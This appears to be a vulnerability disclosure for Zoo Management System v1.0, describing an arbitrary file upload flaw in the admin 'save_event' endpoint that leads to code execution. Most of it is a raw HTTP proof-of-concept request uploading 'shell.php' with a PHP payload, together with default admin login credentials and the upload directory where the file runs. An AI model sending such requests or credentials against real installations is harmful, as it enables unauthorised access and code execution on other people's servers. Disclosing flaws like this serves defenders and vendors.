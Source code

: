 # Zoo Management System v1.0 by pushpam02 has arbitrary code execution (RCE)

BUG_Author: Tmoont

Admind login account: admin@mail.com/Password@123

vendor: https://www.sourcecodester.com/php/15347/zoo-management-system-source-code-php-mysql-database.html

Vulnerability url: http://ip/ZooManagementSystem/admin/public_html/save_event

Loophole location：There is an arbitrary file upload vulnerability (RCE) in the picture upload point of the "save_event" file of the "Events" module in the background management system

Request package for file upload：

```sql
POST /ZooManagementSystem/admin/public_html/save_event HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/ZooManagementSystem/admin/public_html/save_event
Cookie: PHPSESSID=5d10vq7lgptbau7foskstiug7i
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------211023133510784
Content-Length: 851

-----------------------------211023133510784
Content-Disposition: form-data; name="event_id"


-----------------------------211023133510784
Content-Disposition: form-data; name="event_name"

1
-----------------------------211023133510784
Content-Disposition: form-data; name="event_description"

1
-----------------------------211023133510784
Content-Disposition: form-data; name="event_duration"

1
-----------------------------211023133510784
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------211023133510784
Content-Disposition: form-data; name="event_start_date"

1
-----------------------------211023133510784
Content-Disposition: form-data; name="submit"


-----------------------------211023133510784--
```

The files will be uploaded to this directory \ZooManagementSystem\img\event
![image](https://user-images.githubusercontent.com/54017627/183284527-93cce850-ae7c-414a-9265-9498ad9537a3.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183284550-971640c2-68b6-449f-a198-7a925e8ef58c.png)
